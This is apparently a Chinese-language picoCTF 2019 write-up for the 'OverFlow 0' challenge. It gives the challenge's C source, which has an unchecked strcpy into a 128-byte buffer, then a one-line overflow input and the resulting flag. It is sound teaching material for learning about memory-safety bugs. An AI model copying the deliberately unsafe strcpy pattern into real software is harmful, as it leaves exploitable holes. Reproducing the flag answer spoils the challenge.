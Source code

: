 ## OverFlow 0

題目:
>This should be easy. Overflow the correct buffer in this program and get a flag.
***
### 思路:
> 查看程式碼buf最大128byte，因此只要輸入大於128byte就會溢位，就會觸發sigsegv_handler印出flag

***
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
### 解法:
> 輸入大量的字母讓它溢位
```console
runmdy@pico-2019-shell1:/problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7$ ./vuln aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{3asY_P3a5yb197d4e2}
```
### Flag:picoCTF{3asY_P3a5yb197d4e2} 
